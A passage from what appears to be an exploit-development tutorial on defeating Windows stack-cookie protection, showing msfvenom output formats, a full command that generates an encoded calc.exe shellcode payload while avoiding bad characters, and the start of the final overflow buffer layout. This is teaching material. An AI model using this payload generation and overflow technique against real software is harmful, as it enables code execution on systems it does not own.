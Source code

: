   - There are two types of formats: Executable and Transform.  The former saves the shellcode as an application and the latter will output shellcode to the screen that can be copy and pasted in the language of your exploit / language your exploit is written in.
    - For instance, `-f python` outputs the payload in python format:
    ```python
    buf =  ""
    buf += "\xdb\xc5\xb8\xb5\x95\xa8\x9c\xd9\x74\x24\xf4\x5f\x29"
    buf += "\xc9\xb1\x31\x83\xc7\x04\x31\x47\x14\x03\x47\xa1\x77"
    ```
    `-f c` outputs the payload in C format:
    ```c
    unsigned char buf[] = "\xdb\xde\xd9\x74\x24\xf4\x5e\xb8\x8c\xc0\xba\x17\x31\xc9\xb1";
    ```
    `-f perl` outputs the payload in perl format:
    ```perl
    my $buf = "\xbb\x6a\xe1\xea\x51\xd9\xce" . "\xd9\x74\x24\xf4\x58\x29\xc9";
    ```
* **-h** displays information for additional arguments.

The shellcode I use in this exploit is generated with:

```
$ msfvenom -p windows/exec CMD=calc.exe -f python -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -v shellcode
```

CMD=calc.exe sets the CMD variable in the payload to execute the Windows calculator program.  This value can be changed to execute Notepad.exe, CMD.exe, or anything else.  I leave EXITFUNC out of the command to accept its default setting.

msfvenom will choose the platform and architecture based on the payload I selected.

Some of the arguments I haven't discussed yet:

* **-e x86/shikata_ga_nai** encodes the payload using the Polymorphic XOR Additive Feedback Encoder scheme.
* **-b `\x00\x0a\x0d`** avoids bad characters associated with null characters, new lines, and carriage returns.
* **-v shellcode** specifies a variable name to use in the python output format.

We don't need to be concerned with size constraints as there are over 900 bytes available on the stack for our payload.  But, if we were limited on space, there are options in Metasploit to keep the shellcode small.

# Putting it All Together

In this last section, I show how to put all these pieces together to construct the final exploit.  I'll explain this with examples of the exploit code with the full script posted at the end.

## Final Exploit

```
[       buf       ][  ebp-4  ][   ebp   ][   eip   ][  nops  ][  shellcode  ]
```


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #putting-it-all-together
[Click here]: https://docs.microsoft.com/en-us/cpp/build/building-on-the-command-line
[vulnerable]: #overview-of-windows-mitigations "Overview of Windows Mitigations"
[vulnerable program]: #the-vulnerable-code "Source Code"
[line 3]: #prologue-line-3 "Prologue Line 3"
[previous section]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[here]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[skip]: #putting-it-all-together "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check
[2]: http://uninformed.org/index.cgi?v=7&a=2
[3]: https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/